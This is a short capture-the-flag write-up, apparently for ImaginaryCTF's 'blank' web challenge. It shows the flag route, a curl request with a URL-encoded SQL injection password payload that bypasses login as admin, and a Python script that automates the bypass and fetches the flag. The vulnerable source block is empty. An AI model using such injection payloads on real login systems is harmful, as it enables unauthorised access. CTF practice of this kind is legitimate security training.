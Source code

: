 ```javascript

```

At line number 5, have a SQL injection vulnerability.


```javascript
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});

```

Only `admin` can read the flag.


Test bypass login
```
┌──(taiwhis㉿kali)-[~]
└─$ curl -X POST "http://blank.chal.imaginaryctf.org/login" \
-H "Host: blank.chal.imaginaryctf.org" \
-H "Origin: http://blank.chal.imaginaryctf.org" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Referer: http://blank.chal.imaginaryctf.org/login" \
-H "Cookie: connect.sid=s%3AmkTFBAbVRFCgotHP5WBHTn4qstbev9Wj.BIGMwk5AsQcgKQANscObLBlAuWqje9HBB%2B8WFohFCNY" \
--data "username=admin&password=%22%20or%201%3D1%20union%20select%201%2C2%2C3--" \
--compressed

Login successful!   
```

Solution:
```python
┌──(taiwhis㉿kali)-[~]
└─$ cat 1.py 
import requests

url = "http://blank.chal.imaginaryctf.org/"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None
        
with requests.Session() as session:
    session_requests(session, "POST", "login", { "username":"admin","password":'" or 1=1 union select 1,2,3 --' })
    res = session_requests(session, "GET", "flag")
    print(res)

```
